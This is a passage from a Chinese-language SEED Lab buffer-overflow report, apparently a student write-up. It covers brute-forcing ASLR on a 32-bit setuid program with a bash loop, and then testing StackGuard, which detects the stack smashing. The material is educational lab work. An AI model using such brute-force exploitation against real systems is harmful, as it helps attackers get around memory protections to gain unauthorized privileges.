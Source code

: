 ### Task 8: Defeating Address Randomization 

在32位机器上，由于栈比较小，可以通过暴力破解的方式来攻破ASLR地址随机化。

运行命令重新开启ASLR机制：

```shell
❯ sudo /sbin/sysctl -w kernel.randomize_va_space=2
kernel.randomize_va_space = 2
```

尝试攻击stack-L1，可以发现报错，由于ASLR随机了栈基址，导致ret的值失效。

```shell
❯ python3 exploit-L1.py
❯ ./stack-L1
Input size: 517
[1]    12494 segmentation fault (core dumped)  ./stack-L1
```

使用暴力破解的方式来尝试攻击，运行脚本，由于随机性较强，没有解出：

![暴力破解](/img/posts/2023-10-25-【SEED_Lab】缓冲区溢出实验报告/images_

setuid/暴力破解.png)

暴力破解脚本如下，主要执行了循环进行攻击的操作。

`brute_force.sh`

```shell
#!/bin/bash
SECONDS=0
value=0

while true; do
  value=$(( $value + 1 ))
  duration=$SECONDS
  min=$(($duration / 60))
  sec=$(($duration % 60))
  echo "$min minutes and $sec seconds elapsed."
  echo "The program has been running $value times so far."
  ./stack-L1
done
```

### Task 9：Experimenting with Other Countermeasures  

1. **Task 9.a: Turn on the StackGuard Protection**  

   开启StackGuard防护。使用gcc命令重新编译stack-L1，尝试进行攻击

   ```shell
   ❯ ./stack
   Input size: 517
   *** stack smashing detected ***: terminated
   [1]    19472 IOT instruction (core dumped)  ./stack
   ```
